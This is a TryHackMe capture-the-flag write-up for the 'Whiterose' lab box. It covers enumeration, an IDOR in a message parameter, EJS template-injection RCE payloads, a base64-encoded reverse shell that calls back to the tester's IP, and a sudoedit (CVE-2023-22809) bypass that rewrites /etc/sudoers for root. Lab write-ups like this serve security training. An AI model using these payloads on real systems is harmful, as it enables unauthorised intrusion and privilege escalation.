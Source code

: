 ```yaml
---
clayout: ctf
title: Whiterose
type: TryHackMe
date: 2025-02-22
level: Easy
icon: /ctf/tryhackme/whiterose/icon-room.png
image: /ctf/tryhackme/whiterose/icon-room.png
description: Yet another Mr. Robot themed challenge.
ctf-link: https://tryhackme.com/room/whiterose
---
```


## Challenge description

This challenge is based on the Mr. Robot episode "409 Conflict". Contains spoilers!

Go ahead and start the machine, **it may take a few minutes to fully start up.**

And oh! I almost forgot! - You will need these: `Olivia Cortez:olivi8`

## Challenge overview

In this challenge, participants are tasked with penetrating the security of a fictional bank's administrative portal.
Starting with limited information, including a set of user credentials, the goal is to explore the web application's
structure, identify vulnerabilities such as parameter manipulation and remote code execution (RCE), and ultimately
escalate privileges to obtain sensitive information.

## Enumeration

### Nmap

We begin by scanning the target machine to identify open ports and services:

```bash
$ nmap -sC -sV -v -oN whiterose.nmap 10.10.103.134
Nmap scan report for 10.10.103.134
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b907960dc4b60cd6221ae46c8eac6f7d (RSA)
|   256 baff923e0f037eda30cae3528d47d96c (ECDSA)
|_  256 5de41439ca061747935386de2b77097d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Findings:

- **Port 22**: SSH service running OpenSSH 7.6p1
- **Port 80**: HTTP service running nginx 1.14.0

### Web Enumeration

Navigating to `http://cyprusbank.thm/` displays the homepage of the web application:

![Whiterose - Home page](/ctf/tryhackme/whiterose/home.png)

The site is currently under maintenance and does not provide any useful information. Using `gobuster`, we can identify
DNS subdomains:

```bash
$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u cyprusbank.thm  -t 20 --append-domain
```

The scan reveals an `admin` subdomain:

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://cyprusbank.thm
[+] Method:          GET
[+] Threads:         20
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.cyprusbank.thm Status: 302 [Size: 28] [--> /login]

===============================================================
Finished
===============================================================
```

Navigating to `http://admin.cyprusbank.thm/` displays a login page:

![Whiterose - admin login page](/ctf/tryhackme/whiterose/login.png)

Using the provided credentials `Olivia Cortez:olivi8` logs us into the admin panel:

![Whiterose - admin panel](/ctf/tryhackme/whiterose/admin-panel.png)

Exploring the `Messages` section:

![Whiterose - Messages](/ctf/tryhackme/whiterose/messages.png)

Observing the URL of the messages, we notice a `c` parameter:

```bash
http://admin.cyprusbank.thm/messages/?c=5
```

Modifying the `c` parameter to `8` reveals a sensitive message:

![Whiterose - Sensitive message](/ctf/tryhackme/whiterose/sensitive-message.png)

We now have a new set of credentials: `Gayle Bev:p~]P@5!6;rs558:q`. Logging into the admin panel with these credentials
grants access to additional sections. In the `Search` section, searching for the user "Tyrell Wellick" reveals their
phone number:

![Whiterose - Search](/ctf/tryhackme/whiterose/search.png)

The `Settings` section is also accessible:

![Whiterose - Settings](/ctf/tryhackme/whiterose/settings.png)

Intercepting the request with `Burp Suite`:

![Whiterose - Burp Suite](/ctf/tryhackme/whiterose/settings-burp.png)

By modifying a parameter name, such as changing `password` to `password1`, the application returns an error message:

![Whiterose - Error message](/ctf/tryhackme/whiterose/error-message.png)

This error message indicates that the application use `ejs` to render the views. Looking on the web, we can find a RCE
vulnerability in `ejs` that allows us to execute arbitrary code. We can base on the following payload found on the
[Snyk website](https://security.snyk.io/vuln/SNYK-JS-EJS-2803307)

```bash
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('id');
```

Adding this payload to the request results in a SyntaxError. To prevent this, append `//` to comment out the rest of the
code:

```bash
&settings[view options][outputFunctionName]=x;global.process.mainModule.require('child_process').execSync('ls -al');//
```

Now no error is returned but your code return nothing. This is because the code is executed in the server side and we
don't
return the output from our payload:

```bash
&settings[view options][outputFunctionName]=x;return+global.process.mainModule.require('child_process').execSync('ls -al');//
```

## Reverse shell

We can use the following payload to open a reverse shell:

```bash
&settings[view options][outputFunctionName]=x;return+global.process.mainModule.require('child_process').execSync('echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjExLjEyNS4yNDYvNDQ0NCAwPiYx|base64+-d|bash');//
```

Now we can listen on our machine:

```bash
$ nc -lvnp 4444
```

And send the request to the server:

```bash
web@cyprusbank:~/app$ id
id
uid=1001(web) gid=1001(web) groups=1001(web)
```

We can now read the user flag:

```bash
web@cyprusbank:~$ cat user.txt
cat user.txt
THM{user_flag}
```

## Privilege escalation

Looking for the `sudo` permissions:

```bash
web@cyprusbank:~$ sudo -l
sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

We found on the web
this [sudoedit bypass](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)
post that explain how to exploit this vulnerability. We can use the following payload to get a root shell:

```bash
web@cyprusbank:~$ export EDITOR="vi -- /etc/sudoers"
web@cyprusbank:~$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Will open the `/etc/sudoers` file in `vi`. Now we can add the following line to the file under the
`root ALL=(ALL:ALL) ALL` line:

```bash
web ALL=(ALL:ALL) NOPASSWD: ALL
```

Now we can save the file and exit `vi` and execute the following command to get a root shell and get the root flag:

```bash
web@cyprusbank:~$ sudo su
root@cyprusbank:/home/web# id
uid=0(root) gid=0(root) groups=0(root)
root@cyprusbank:/home/web# cd
root@cyprusbank:~# cat root.txt
THM{root_flag}
```

## References

- [Snyk - EJS Remote Code Execution](https://security.snyk.io/vuln/SNYK-JS-EJS-2803307)
- [Vicarius - CVE-2023-22809 sudoedit bypass analysis](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)

